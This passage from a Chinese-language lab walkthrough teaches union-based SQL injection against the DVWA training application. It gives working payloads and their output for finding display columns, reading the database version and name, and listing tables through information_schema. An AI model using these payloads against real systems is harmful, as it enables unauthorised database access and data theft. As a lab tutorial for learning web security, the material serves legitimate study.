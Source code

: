 **由此可以确定显示位置，1 在 First name，2 在 Surname，即前面的查询结果在 First name 显示，后面的在 Surname 显示**

这里用到了**联合查询 union select**  
union select 可以联合多表查询，将不同表的查询结果放在同一个结果集中，所以就要求两个查询的字段数要一样（这里是 2 个字段），这也是为什么要做第 2 步的原因。

```
输入“1' union select 1,2#”：
SELECT first_name, last_name FROM users WHERE user_id = '1' union select 1,2#';
第一个结果就是users表中user_id = '1'的数据，第二个数据就是union select查询的结果
因为union select没有查询的表名，所以输入即结果，1和2，然后根据1和2的显示位置确定其和查询语句的对应关系
```

###### 4. 获取数据库名、版本等信息

然后可以显示数据库版本、数据库名等信息

```
输入“1’ union select version(),database() # ”，显示：

ID: 1' union select version(),database() #
First name: admin
Surname: admin

ID: 1' union select version(),database() #
First name: 8.0.17
Surname: dvwa
```

**可以看到数据库版本为 8.0.17，数据库名为 dvwa**

这里就比较简单了，**version()**和**database()**是 mysql 的内置函数，可以显示当前数据库的版本和当前的数据库名。再结合 union select 进行显示即可

###### 5. 获取表名

对于数据库 5.0 以上的版本，存在 information_schema 数据库，这个库保存了 Mysql 服务器所有数据库的信息，如数据库名，数据库的表等信息  
这是我数据库里这个表的信息（不要吐槽字体！）

![information_schema](https://z3.ax1x.com/2021/04/13/cyVYZj.png)

事实上，其中的**TABLES 表**存着所有表的信息，**COLUMNS 表**存着所有字段的信息  
通过这个数据库，我们能够可以获取现在使用的数据库的表名和字段名（理论上还可以获得所有数据库、表、字段名）  
所以上一步获取数据库的版本，就是为了判断是否存在这个表

```
输入“1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#”，返回如下

ID: （我输入的这一长串）
First name: admin
Surname: admin
ID: （我输入的这一长串）
First name: 1
Surname: guestbook,users
```

**可以看到数据库（dvwa）中有两个表，guestbook 和 user**

**group_concat()**是 mysql 的一个指令，可以将多个结果合并成一个字段。  
上面我们查询到了**guestbook 和 users**两个结果，然后用这条指令将其合并，从而满足 union select 需要相同字段数的条件（这里是两个字段，1 和 group_concat(table_name)）
